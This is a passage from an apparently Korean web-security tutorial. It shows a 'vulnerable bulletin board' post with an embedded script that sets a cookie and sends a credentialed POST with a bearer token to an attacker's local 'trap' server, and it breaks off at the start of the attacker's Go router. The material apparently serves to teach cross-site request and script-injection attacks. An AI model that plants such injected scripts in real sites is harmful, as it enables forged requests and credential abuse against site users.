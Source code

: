       <!DOCTYPE html>
      <html lang="ko">
        <head>
          <meta charset="UTF-8" />
          <meta http-equiv="X-UA-Compatible" content="IE=edge" />
          <meta name="viewport" content="width=device-width, initial-scale=1.0" />
          <title>보안 허술 게시판</title>
        </head>
        <body>
          <div>게시글 본문</div>
          <div>제목: 이 글 보면 좋은 일 생김</div>
          <div>
            내용: 없음
            <script type="text/javascript">
              const baseURL = "http://localhost:8889";
              const testURL = `${baseURL}/trap`;

              function setCookie() {
                // 참고 : https://cofs.tistory.com/363
                var date = new Date();
                date.setTime(date.getTime() + 60 * 60 * 24 * 1000);
                document.cookie = `auth=1; expires=' + ${date.toUTCString()}; path=/`;
              }

              function testPost() {
                setCookie();

                fetch(testURL, {
                  method: "POST",
                  headers: {
                    Authorization: "Bearer auth2",
                  },
                  credentials: "include",
                })
                  .then((response) => response.json())
                  .then((responseJson) =>
                    console.log("Response", JSON.stringify(responseJson))
                  )
                  .catch((error) => console.log("Error", error));
              }

              testPost();
            </script>
          </div>
        </body>
      </html>

      {% raw %}{{ end }}{% endraw %}
      ```
- 공격자B의 라우터
  - ```golang
      package main

      import (
        "fmt"
        "net/http"
        "time"
